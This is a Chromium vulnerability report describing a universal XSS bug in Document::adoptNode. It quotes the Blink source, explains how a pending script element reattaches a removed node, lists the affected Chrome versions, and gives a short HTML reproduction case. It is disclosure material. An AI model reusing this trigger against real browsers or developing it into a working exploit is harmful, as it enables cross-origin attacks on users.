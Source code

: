 # Security: Universal XSS using document.adoptNode

> Reported by <mailto:marius.mlynski@gmail.com>, Oct 8 2015

## VULNERABILITY DETAILS

From `/third_party/WebKit/Source/core/dom/Document.cpp`:

```cpp
PassRefPtrWillBeRawPtr<Node> Document::adoptNode(PassRefPtrWillBeRawPtr<Node> source, ExceptionState& exceptionState)
{
    EventQueueScope scope;

    switch (source->nodeType()) {
(...)
    default:
(...)
        if (source->parentNode()) {
            source->parentNode()->removeChild(source.get(), exceptionState);
            if (exceptionState.hadException())
                return nullptr;
        }
    }

    this->adoptIfNeeded(*source);

    return source;
}
```

This code expects that `removeChild(source.get(), exceptionState)` will either detach the source node or throw an exception if it can't be done. However, the child can be reattached immediately after removal (through `HTMLScriptElement::childrenChanged`) if the parent node is a pending script whose type has recently changed to valid. In such case, `ContainerNode::removeChild` doesn't throw any exception. Consequently, the adopted node will end up in a wrong tree scope, which may lead to GC crashes and inconsistent frame states.

## VERSION

Chrome 45.0.2454.101 (Stable)
Chrome 46.0.2490.64 (Beta)
Chrome 47.0.2526.5 (Dev)
Chromium 48.0.2531.0 (Release build compiled today)

## REPRODUCTION CASE

```html
<!DOCTYPE html>
<html>

<body>
  <script>
    var s = document.createElement('script');
    s.type = '0';
    s.textContent = 's.appendChild(x)';
    document.documentElement.appendChild(s);
    var x = document.createElement('x');
    s.appendChild(x);
    s.type = '';

    var i = document.documentElement.appendChild(document.createElement('iframe'));
    i.contentDocument.adoptNode(x);

    alert(x.ownerDocument === x.parentNode.ownerDocument);
  </script>
</body>

</html>

```

Link: https://bugs.chromium.org/p/chromium/issues/detail?id=541206
